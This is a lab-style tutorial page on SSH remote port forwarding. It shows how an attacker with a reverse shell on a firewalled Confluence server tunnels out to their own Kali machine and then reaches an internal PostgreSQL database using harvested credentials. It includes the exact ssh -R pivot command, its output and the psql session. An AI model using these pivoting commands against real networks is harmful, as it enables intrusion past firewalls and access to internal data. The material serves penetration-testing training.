


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSH Remote Port Forwarding

In both the [SSH Local Port Forwarding](ssh-local-port-forwarding.md) and [Dynamic Port Forwarding](ssh-dynamic-port-forwarding.md) examples, the attacker was able to bind the SSH listener to whatever port they desired on the WAN-side (of `CONFLUENCE01`). While this was helpful for concept illustration, it is an unlikely scenario in the real world. More often than not, firewalls - both hardware and software - are likely to get in the way. Inbound traffic is often controlled much more aggressively than outbound traffic.

Only in rare cases will attackers compromise credentials for an SSH user, allowing them to SSH directly into a network and port forward. They will only very rarely be able to access ports that can bind to a network perimeter.

However, more commonly one may be able to SSH out of a network. Outbound connections are more difficult to control than inbound connections. Most corporate networks will allow many types of common network traffic out - including SSH - for reasons of simplicity, usability, and business need.

**SSH remote port forwarding**, also known as reverse tunneling, is designed to be used when a user needs to _allow external access to a service or application hosted on their local machine_, typically behind a firewall or router, and make it accessible to a service or application running on a remote server. Remote port forwarding _reroutes traffic from a specified port on the remote server to a designated port on the local machine_.

In an attack scenario remote port forwarding can be used to connect back to an attacker-controlled SSH server, and bind the listening port there. It can be thought of as a sort of "reverse shell for port forwarding."

## Command Structure

Remote port forwarding is set up with the `-R` flag on the `ssh` command with the general structure:

```bash
ssh -R <remote_address:><remote_port>:<destination_address>:<local_port> <username>@<ssh_server>
```

* remote\_address is an optional parameter that tells the remote host what address to listen on

The diagram below shows how this would look:

<figure><figcaption><p>Command structure of the SSH remote port forward</p></figcaption></figure>

* Command would be run on `Client` machine in the example
* In this diagram, traffic is being forwarded from a publicly accessible server's (`Gateway`) port `8080` (any interface as specified by `0.0.0.0`) to the web server living at `localhost:80` on the machine called `Client`

## Example Scenario

Consider the network that has been seen in [previous examples](ssh-local-port-forwarding.md) with a Confluence web server (`CONFLUENCE01`) running on the perimeter of the network at port `8090`. As stated before, in previous examples the attacker could bind an SSH listener on any WAN port of `CONFLUENCE01`. Now consider what would happen if there were a firewall restricting inbound connections to `CONFLUENCE01`. Chances are the firewall would be configured to prevent incoming SSH traffic to some random port (`9999` for example). This would render the previously demonstrated techniques ineffective. However the firewall likely allows any outbound connections, as evidenced by the fact that the reverse shell gets through the firewall. In this scenario, an SSH remote port forward could be set up to reach out of the network from `CONFLUENCE01` to the attacker's machine, thus creating a tunnel into the network for traffic:

<figure><figcaption><p>SSH remote port forward out of the network</p></figcaption></figure>

In the diagram above the firewall is configured to only allow inbound traffic to port `8090` where the Confluence web server is listening. However, all outbound traffic is allowed.

### Setting Up the Port Forward

The initial stages are the same as seen before:

1. Spawn a standard reverse shell on `CONFLUENCE01` with the exploit shown [here](../simple-port-forwarding-scenario.md#cve-2022-26134)
2. Stabilize the shell with the technique demonstrated [here](../../shells/reverse-shell/netcat.md#simplified)

In previous examples, once the shell had been created, it was used to bind a listener on the WAN interface of `CONFLUENCE01`. That will not work in this scenario because of the firewall. The attacker can technically still create the listener on `CONFLUENCE01`, but no matter what port they set it up on, it will be unreachable because the firewall only allows external traffic to come in to port `8090`.

Fortunately, while enumerating the machine, the attacker does come across an SSH client. This means the attacker could use the SSH client to connect out to an SSH server on the attacker's machine.

#### Setting Up the SSH Server

In order to receive the incoming SSH connection, the attacker must set up an SSH server on their machine. Fortunately, [OpenSSH](https://www.openssh.com/) comes preinstalled on Kali machines. To start the SSH server use the command:

```bash
sudo systemctl start ssh
```

This will start the server. To verify it is listening, use the [`ss`](https://man7.org/linux/man-pages/man8/ss.8.html) command:

```bash
sudo ss -ntplu
```

Assuming the server is listening, the connection will appear as shown below:

```bash
kali@kali:~$ sudo ss -ntplu 
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN 0      128             [::]:22           [::]:*     users:(("sshd",pid=181432,fd=4))
```

* Note the server is listening on all interfaces for both IPv4 and IPv6

#### Opening the Remote Forward

Now that the attacker's machine is listening on port 22 for incoming SSH connections, it is possible to create a remote port forward.

The attacker will want to create an open listening port on the loopback interface of their Kali machine. That will allow the attacker to send traffic through the tunnel by sending it to the specific port on the loopback interface. The command for this will look like:

```bash
ssh -N -R 127.0.0.1:2345:10.4.222.215:5432 remote-ssh@192.168.45.159
```

* `-R` specifies it is a remote forward and the configuration follows the flag
  * `127.0.0.1:2345` tells the attacker's Kali machine SSH receiving the connection where to listen
    * This creates a loopback interface listening for traffic on port `2345` on the Kali machine
  * `10.4.222.215:5342` sets the destination of the traffic flowing through the tunnel
    * PGDATABASE01 is running PostgreSQL on port `5432` as seen in the [first example](../simple-port-forwarding-scenario.md)
* `-N` prevents a shell from opening to just allow traffic through the tunnel

This command has no output but will request the user's password as seen below:

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.222.215:5432 remote-ssh@192.168.45.159
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.45.159 (192.168.45.159)' can't be established.
ECDSA key fingerprint is SHA256:twy9QO8IpFFoKforRFBiVTNk/qjqxyp8qnFTnBUcqZs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
remote-ssh@192.168.45.159's password:

```

The command can be verified to have worked by checking the Kali machine for a listener on the loopback interface at port `2345`:

```bash
kali@kali:~$ ss -ntplu                            
Netid  State   Recv-Q  Send-Q   Local Address:Port      Peer Address:Port  Process                                   
udp    UNCONN  0       0              0.0.0.0:55799          0.0.0.0:*      users:(("firefox-esr",pid=2166,fd=107))  
udp    UNCONN  0       0              0.0.0.0:47871          0.0.0.0:*                                               
udp    UNCONN  0       0              0.0.0.0:52732          0.0.0.0:*      users:(("firefox-esr",pid=2166,fd=155))  
tcp    LISTEN  0       128            0.0.0.0:22             0.0.0.0:*                                               
tcp    LISTEN  0       128          127.0.0.1:2345           0.0.0.0:*                                               
tcp    LISTEN  0       128               [::]:22                [::]:*
```

* Note the listener on `2345` indicating success

### Using the Forward

The port forward can now be used by sending any desired traffic to the listening port 2345 at 127.0.0.1 on the attacker's Kali machine. Any traffic addressed here will be sent back through the reverse port forward to the destination, in this case PGDATABASE01 (located at `10.4.222.215`) port `5432`.

This port forward is configured to point at the port hosting PostgreSQL. In order to interact use the `psql` command and the credentials found for the database in the [first example](../simple-port-forwarding-scenario.md) (`postgres:D@t4basePassw0rd!`):

```
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: 
psql (16.1 (Debian 16.1-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# \l
postgres=#
```

* Note the traffic is sent to `PGDATABASE01` but is routed through the local loopback listener at `127.0.0.1:2345`
